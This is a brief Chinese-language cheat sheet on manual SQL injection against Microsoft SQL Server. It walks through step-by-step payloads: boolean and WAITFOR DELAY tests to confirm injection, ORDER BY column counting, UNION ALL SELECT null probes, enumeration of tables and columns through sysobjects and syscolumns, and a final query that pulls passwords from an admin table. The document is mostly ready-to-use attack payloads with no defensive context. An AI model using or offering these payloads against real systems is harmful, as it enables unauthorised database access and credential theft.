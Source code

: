 1. 判断注入

   > and 1=1 / and 1=2

    是否延时：==WAITFOR DELAY '0:0:10'==

2. 判断字段

   > order by n

3. 查看显错点

   - MSSQL数据库和mysql数据库不同，联合查询必须是`union all select`查询数据是必须加上数据类型，如果不清楚就写`null`

   > union all select null,null,null,null

4. 查表

   - sysobjects中的name字段就是表名

   ```
   union all select name where xtype = 'U';
   ```

5. 查字段

   - sysobjects中的id字段记录下来，在syscolumns中添加查询条件id=在sysobjects中查询的id结果

   ```
   union all select id from sysobjects where xtype = 'U';
   查询的结果记录下来（好比id查到的结果是34）
   union all select * from syscolumns where id = 34;
   就会得到这个数据表的所有字段
   ```

6. 查数据

   ```
   union all select null,password from admin
   ```